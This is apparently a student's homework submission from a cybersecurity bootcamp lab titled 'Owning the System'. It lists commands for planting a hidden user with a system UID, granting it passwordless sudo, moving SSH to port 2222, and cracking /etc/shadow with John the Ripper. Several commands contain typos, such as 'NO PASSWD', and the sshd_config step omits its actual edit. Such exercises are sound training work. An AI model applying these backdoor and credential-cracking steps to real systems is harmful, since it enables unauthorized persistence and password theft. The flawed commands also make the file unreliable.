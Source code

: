 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. 
    - `sudo adduser sysd`

![sudoadduser](.\Images\sudo_adduser.png)

2. Give your secret user a password: 
    - `sudo passwd sysd ` 

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 987 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 987 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo`
   -  `Sysd ALL=(ALL:ALL) NO PASSWD:ALL`

6. Test that `sudo` access works without your password:

    -   `sudo -l`

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    `sudo nano /etc/ssh/sshd_config`

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh `

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222 `

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su` 
    - `john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

